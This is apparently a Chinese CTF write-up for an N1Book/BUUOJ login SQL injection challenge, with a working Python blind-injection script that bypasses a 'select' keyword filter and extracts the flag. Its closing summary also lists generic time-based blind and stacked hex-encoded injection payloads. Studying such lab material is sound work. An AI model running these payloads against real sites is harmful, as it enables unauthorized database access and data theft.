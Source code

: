 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{login_sqli_is_nice}`

## 思路
1. 访问环境时显示403，可以遍历一下常用的入口文件`index.php、admin.php、webshell.php、login.php`等，此处题目给了提示`login.php、user.php`
2. login.php界面有两种错误反馈，测试出**admin**账户存在
    - 账号或密码错误
    - 账号不存在
3. 与[sql注入-1](./sql注入-1.md)原理相同，判断出用户名处存在字符型sql注入
    ![](./images/sql2-1.png)   
    ![](./images/sql2-2.png)
4. 进一步发现union select注入，由于不展示select到的值，有两个结果作为返回值，开始写脚本进行报错注入。
```python
# -*- coding: utf-8 -*-
# @Date    : 2020-12-18
# @Author  : SuperJason
import requests
import string

url = 'http://092604a0-af99-4453-aedd-215fff67f97e.node3.buuoj.cn/login.php'
flag = ''
trueflag='8bef'
falseflag='5728'
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

# select过滤
for i in range(1,50):
# 由于服务器限制了访问请求，上述for循环可以每次遍历少一点的数量，例如1-5,5-10,....
    # 可打印字符的ASCII码在33-128之间
    left = 32
    right = 127

    while right - left != 1:
        mid = (right + left) // 2        
        # target = 'select database()'        
        # target = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        # target = 'select group_concat(column_name) from information_schema.columns where table_name="fl4g"'
        target = 'select flag from fl4g'

        payload = "'and (ascii(substr(({}), {}, 1))>{})#".format(target, i, mid)
        #payload = payload.replace('from', 'frfromom')
        payload = payload.replace('select', 'selselectect')
        #payload = payload.replace('or', 'oorr')
        #payload = payload.replace('where', 'whwhereere')
        # 此处需要通过burpsuite等工具获得post的参数名
        data = {
            "name": "admin"+payload,
            "pass": 1
        }

        content = requests.post(url, data = data).text
        if trueflag in content:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print (flag)

# note
# fl4g,usc
# flag
# n1book{login_sqli_is_nice}

```

## 总结
这道题算是简单题，只对select进行了过滤，而且只是基于报错的注入。现在来扩宽一下sql注入的难度
- 关键字过滤
    - select、union、sleep、information_schema
    - table、and、or
- 时间盲注需要用到sleep(n)，盲注通用语句
    - `sql="select(if(ascii(mid((select group_concat(schema_name) from information_schema.schemata),{},1))={},sleep(3),0))".format(str(num), str(ord(char)))`
进一步的关键字都被过滤，时间盲注关键字也无效，考虑SQL语句的转码。使用**堆叠注入**的方式执行**16进制编码的SQL语句**。
通用payload如下
    - `1';set @x=16进制SQL语句;prepare a from @x;execute a;#`
    - 注意`16进制SQL语句`前面需要加`0x`
